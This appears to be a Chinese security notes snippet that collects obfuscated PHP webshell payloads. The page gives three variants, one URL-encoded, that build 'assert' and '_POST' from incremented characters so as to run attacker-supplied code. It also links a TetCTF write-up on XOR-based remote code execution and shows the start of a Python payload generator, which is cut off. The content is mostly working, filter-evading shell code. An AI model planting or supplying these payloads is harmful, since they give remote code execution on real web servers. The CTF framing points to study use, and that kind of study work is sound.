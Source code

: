 ```
$_=[];$_=@"$_";$_=$_["!"=="@"];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```



```
$_=[];$_="$_";$_=$_[1==1];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```



```
$_=
[];$_=@"$_";$_=$_["!"=="@"];$___=$_;$__=$_;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$___.=$__;$___.=$__;$__=$_;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$___.=$__;$__=$_;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$___.=$__;$__=$_;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$___.=$__;$____='_';$__=$_;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$____.=$__;$__=$_;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$____.=$__;$__=$_;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$____.=$__;$__=$_;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$__%2B%2B;$____.=$__;$_=$$____;$___($_[_]);
```

国外某比赛通过异或rce

https://ljdd520.github.io/2021/01/28/TetCTF%E9%83%A8%E5%88%86web%E9%A2%98%E8%A7%A3/

脚本如下

```
import urllib.parse

class WebShell(object):
    def __init__(self, chars, payload):
        self.chars = chars
        self.payload = payload
        self.dic = self.shell()

    def shell(self):
        dic = {}
        for i in range(0, len(self.chars)):
            for j in range(0, len(self.chars)):
                for k in range(0, len(self.chars)):
```